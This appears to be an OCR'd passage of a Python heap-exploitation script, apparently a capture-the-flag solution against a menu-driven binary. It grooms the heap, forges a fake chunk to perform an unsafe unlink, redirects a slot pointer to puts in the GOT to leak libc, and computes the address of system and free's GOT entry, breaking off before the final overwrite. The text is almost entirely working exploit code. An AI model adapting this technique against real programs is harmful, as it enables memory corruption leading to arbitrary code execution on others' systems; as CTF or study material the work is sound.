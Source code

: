 ```python

assert(len(data) == chunk_size)

for i in range(0, 20):
    alloca_slot(i, chunk_size)


extra_sizes = [0x410, 0x470, 0x13b0, 0x2010]
extra_space = i
for i in range(extra_space, extra_space+len(extra_sizes)):
    print("allocat_empy %d" % i )
    alloca_slot(i, extra_sizes[i - extra_space] - 0x10)


data = data.ljust(chunk_size, b"\x00")
chunk_a = i + 1
chunk_b = i + 2
chunk_c = i + 3
print("a: %d, b: %d" % (chunk_a, chunk_b))
alloca_slot(chunk_c, chunk_size)
alloca_slot(chunk_a, chunk_size)
alloca_slot(chunk_b, chunk_size)

for i in range(extra_space, extra_space+len(extra_sizes)):
    print("free %d" % i )
    free_slot(i)

write_slot(chunk_a, data)
s = print_slot(chunk_a)
parse_slot(chunk_a)
s2 = print_slot(chunk_a)

slots_base = 0x409280

addre_23 = slots_base + 23*8 # chunk_a

new_chunk_a = p64(0x0) + p64(0x451) + p64(addre_23 - 0x18) + p64(addre_23 - 0x10) + p64(0) + p64(0) + b"c"*8 + b"d"*8 + b"e"*8
new_chunk_a = new_chunk_a.ljust(0x450, b"B") + p64(0x450)
# input("wait for write")
write_slot(chunk_a, new_chunk_a)
# input("wait for free")
free_slot(chunk_b)

slots_data = print_slot(chunk_a)
puts_got = 0x4091A8

alloca_slot(20, 8)
alloca_slot(21, 8)
# input("check chunka")
payload =  p64(0x409328) + p64(puts_got)
payload = payload.ljust(chunk_size, b"\x00")
r.recvuntil("op>\n")
write_slot(chunk_a, payload)


context.log_level = "DEBUG"
r.recvuntil("op>\n")
puts_leak = u64(print_slot(21))
libc_base = puts_leak - 0x875a0
system_libc = libc_base + 0x55410
free_got = 0x409128
print("[!] puts_atlibc: %x" % puts_leak)
```